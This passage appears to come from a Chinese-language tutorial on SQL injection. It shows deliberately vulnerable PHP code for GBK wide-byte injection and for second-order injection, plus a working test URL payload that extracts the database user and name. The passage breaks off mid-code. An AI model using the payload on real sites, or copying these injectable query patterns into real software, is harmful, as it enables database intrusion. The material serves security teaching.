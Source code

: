 sqlgbkinjection.php (test on mysql 5.5.38)

```php
<?php
//连接数据库部分，注意使用了gbk编码，把数据库信息填写进去
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_query("SET NAMES 'gbk'");
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
//执行sql语句
$id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
$sql = "SELECT * FROM news WHERE tid='{$id}'";
$result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="gbk" />
<title>新闻</title>
</head>
<body>
<?php
$row = mysql_fetch_array($result, MYSQL_ASSOC);
echo "<h2>{$row['title']}</h2><p>{$row['content']}<p>\n";
mysql_free_result($result);
?>
</body>
</html>
```

测试:
`http://127.0.0.1/sqlgbkinjection.php?id=10%df%27%20union%20select%201,user(),database()%23`

##### 二次注入

首先将构造好的利用代码写入网站保存,再第二次或多次请求后调用攻击代码触发或者修改配置触发的漏洞。



比如sql二次注入:

在第一次进行数据库插入数据的时候，仅仅只是使用了` addslashes` 或者是借助 `get_magic_quotes_gpc` 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。

在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。

eg:
数据表使用的是上面news表

secondaryinjection.php (test on mysql 5.5.38)

```php
<?php
error_reporting(0);
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['title'])&&isset($_GET['tid'])&&isset($_GET['content'])){
    $tid = intval($_GET['tid']);
    $title = $_GET['title'];
    $content = $_GET['content'];
    if (!get_magic_quotes_gpc()){
        $title = addslashes($title);
        $content = addslashes($_GET['content']);
    }
    $sql = "INSERT INTO news(tid,title,content) VALUES ($tid,'$title','$content')";
    mysql_query($sql, $conn) or die(mysql_error());

    $sql = "select * from news where tid=$tid";
```
